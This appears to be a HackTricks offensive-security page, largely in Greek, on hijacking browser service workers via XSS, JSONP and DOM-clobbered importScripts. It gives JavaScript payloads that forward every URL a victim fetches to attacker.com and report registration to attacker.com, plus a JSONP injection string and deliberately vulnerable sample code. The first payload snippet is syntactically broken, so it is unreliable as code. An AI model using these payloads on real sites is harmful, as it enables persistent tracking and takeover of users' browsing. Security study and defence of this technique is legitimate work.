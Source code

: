 # Abusing Service Workers



{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Basic Information

Ένας **service worker** είναι ένα σενάριο που εκτελείται από τον περιηγητή σας στο παρασκήνιο, ξεχωριστά από οποιαδήποτε ιστοσελίδα, επιτρέποντας δυνατότητες που δεν απαιτούν ιστοσελίδα ή αλληλεπίδραση χρήστη, ενισχύοντας έτσι τις δυνατότητες **εκτός σύνδεσης και επεξεργασίας στο παρασκήνιο**. Λεπτομερείς πληροφορίες σχετικά με τους service workers μπορείτε να βρείτε [εδώ](https://developers.google.com/web/fundamentals/primers/service-workers). Εκμεταλλευόμενοι τους service workers σε έναν ευάλωτο διαδικτυακό τομέα, οι επιτιθέμενοι μπορούν να αποκτήσουν έλεγχο στις αλληλεπιδράσεις του θύματος με όλες τις σελίδες εντός αυτού του τομέα.


### Checking for Existing Service Workers

Οι υπάρχοντες service workers μπορούν να ελεγχθούν στην ενότητα **Service Workers** της καρτέλας **Application** στα **Developer Tools**. Μια άλλη μέθοδος είναι να επισκεφθείτε το [chrome://serviceworker-internals](https://chromium.googlesource.com/chromium/src/+/main/docs/security/chrome%3A/serviceworker-internals) για μια πιο λεπτομερή προβολή.

### Push Notifications

Οι **άδειες ειδοποιήσεων push** επηρεάζουν άμεσα την ικανότητα ενός **service worker** να επικοινωνεί με τον διακομιστή χωρίς άμεση αλληλεπίδραση χρήστη. Εάν οι άδειες απορριφθούν, περιορίζει τη δυνατότητα του service worker να αποτελεί συνεχή απειλή. Αντίθετα, η χορήγηση αδειών αυξάνει τους κινδύνους ασφαλείας επιτρέποντας την παραλαβή και εκτέλεση πιθανών εκμεταλλεύσεων.

## Attack Creating a Service Worker

Για να εκμεταλλευτείτε αυτήν την ευπάθεια πρέπει να βρείτε:

* Έναν τρόπο να **ανεβάσετε αυθαίρετα JS** αρχεία στον διακομιστή και μια **XSS για να φορτώσετε τον service worker** του ανεβασμένου JS αρχείου
* Ένα **ευάλωτο JSONP αίτημα** όπου μπορείτε να **χειριστείτε την έξοδο (με αυθαίρετο JS κώδικα)** και μια **XSS** για να **φορτώσετε το JSONP με ένα payload** που θα **φορτώσει έναν κακόβουλο service worker**.

Στο παρακάτω παράδειγμα θα παρουσιάσω έναν κώδικα για να **καταχωρήσετε έναν νέο service worker** που θα ακούει το γεγονός `fetch` και θα **στέλνει στον διακομιστή των επιτιθέμενων κάθε URL που ανακτάται** (αυτός είναι ο κώδικας που θα χρειαστεί να **ανεβάσετε** στον **διακομιστή** ή να φορτώσετε μέσω μιας **ευάλωτης JSONP** απάντησης):
```javascript
self.addEventListener('fetch', function(e) {
e.respondWith(caches.match(e.request).then(function(response) {
fetch('https://attacker.com/fetch_url/' + e.request.url)
});
```
Και αυτός είναι ο κώδικας που θα **καταχωρήσει τον εργαζόμενο** (ο κώδικας που θα πρέπει να είστε σε θέση να εκτελέσετε εκμεταλλευόμενοι μια **XSS**). Σε αυτή την περίπτωση, ένα **GET** αίτημα θα σταλεί στον διακομιστή των **επιτιθέμενων** **γνωστοποιώντας** αν η **καταχώρηση** του service worker ήταν επιτυχής ή όχι:
```javascript
<script>
window.addEventListener('load', function() {
var sw = "/uploaded/ws_js.js";
navigator.serviceWorker.register(sw, {scope: '/'})
.then(function(registration) {
var xhttp2 = new XMLHttpRequest();
xhttp2.open("GET", "https://attacker.com/SW/success", true);
xhttp2.send();
}, function (err) {
var xhttp2 = new XMLHttpRequest();
xhttp2.open("GET", "https://attacker.com/SW/error", true);
xhttp2.send();
});
});
</script>
```
Σε περίπτωση κατάχρησης ενός ευάλωτου JSONP endpoint, θα πρέπει να βάλετε την τιμή μέσα στο `var sw`. Για παράδειγμα:
```javascript
var sw = "/jsonp?callback=onfetch=function(e){ e.respondWith(caches.match(e.request).then(function(response){ fetch('https://attacker.com/fetch_url/' + e.request.url) }) )}//";
```
There is a **C2** dedicated to the **exploitation of Service Workers** called [**Shadow Workers**](https://shadow-workers.github.io) that will be very useful to abuse these vulnerabilities.

The **24-hour cache directive** limits the life of a malicious or compromised **service worker (SW)** to at most 24 hours after an XSS vulnerability fix, assuming online client status. To minimize vulnerability, site operators can lower the SW script's Time-To-Live (TTL). Developers are also advised to create a [**service worker kill-switch**](https://stackoverflow.com/questions/33986976/how-can-i-remove-a-buggy-service-worker-or-implement-a-kill-switch/38980776#38980776) for rapid deactivation.

## Abusing `importScripts` in a SW via DOM Clobbering

The function **`importScripts`** called from a Service Worker can **import a script from a different domain**. If this function is called using a **parameter that an attacker could** modify he would be able to **import a JS script from his domain** and get XSS.

**This even bypasses CSP protections.**

**Example vulnerable code:**

* **index.html**
```html
<script>
navigator.serviceWorker.register('/dom-invader/testcases/augmented-dom-import-scripts/sw.js' + location.search);
// attacker controls location.search
</script>
```
* **sw.js**
```javascript
const searchParams = new URLSearchParams(location.search);
let host = searchParams.get('host');
self.importScripts(host + "/sw_extra.js");
//host can be controllable by an attacker
```
### Με DOM Clobbering

Για περισσότερες πληροφορίες σχετικά με το τι είναι το DOM Clobbering, ελέγξτε:

{% content-ref url="dom-clobbering.md" %}
[dom-clobbering.md](dom-clobbering.md)
{% endcontent-ref %}

Εάν το URL/domain που χρησιμοποιεί το SW για να καλέσει **`importScripts`** είναι **μέσα σε ένα HTML στοιχείο**, είναι **δυνατό να το τροποποιήσετε μέσω του DOM Clobbering** για να κάνετε το SW **να φορτώσει ένα script από το δικό σας domain**.

Για ένα παράδειγμα αυτού, ελέγξτε τον σύνδεσμο αναφοράς.

## Αναφορές

* [https://portswigger.net/research/hijacking-service-workers-via-dom-clobbering](https://portswigger.net/research/hijacking-service-workers-via-dom-clobbering)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
